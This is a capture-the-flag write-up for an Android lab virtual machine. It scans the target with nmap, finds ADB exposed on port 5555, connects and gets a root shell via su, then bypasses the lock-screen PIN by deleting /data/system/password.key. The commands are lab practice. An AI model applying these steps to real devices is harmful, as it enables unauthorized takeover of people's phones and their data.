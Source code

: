 # 📳📳 Android4: 1 Writeup 📳📳

## Getting the Ip Address of Target Device:

![device screen](screenshots/screen.png)

I will be using arp-scan to scan my local network and get the ip address of the target device

> target ip -> 192.168.100.11

## Scanning the Target 

Using nmap to scan the device for open ports

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ nmap -sV 192.168.100.11 -oN nmap_full_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-06 05:40 EDT
Nmap scan report for 192.168.100.11
Host is up (0.0031s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
5555/tcp open  freeciv?
8080/tcp open  http     PHP cli server 5.5 or later
MAC Address: 08:00:27:ED:55:9B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.30 seconds

```

## Exploitation

Let's go with port 8080, it is a http service, lets open it up in browser and see if we got some clues

![http service](screenshots/browser.png)

Here I dont get any clues or flag in the http services I even used Gobuster to find the hidden dirs but nothing interesting...

Now as another port is open that is 5555, it has service `freeciv` service, so I searched for it and got that we can use it to connect device to out kali machine using [adb](https://developer.android.com/tools/adb)

Let's use adb to connect to target device

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ adb connect 192.168.100.11:5555
connected to 192.168.100.11:5555
                                                                                                               
┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ adb devices                    
List of devices attached
192.168.100.11:5555     device


```

So the device is connected to our attacking machine, lets use shell to enumerate and find the flag

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ su
uid=0(root) gid=0(root)@x86:/ # 


```


Here I got the root shell now lets get the flag

![flag](screenshots/flag.png)

### I got the flag 🚩🚩

But the device has lockscreen pin, so we have to bypass that for getting the control of device, for this as I am having root access to this device, I will find the `password.key` file and then just remove it 

The path of the `password.key` is `/data/system/password.key`

![password bypass](screenshots/unlocked.png)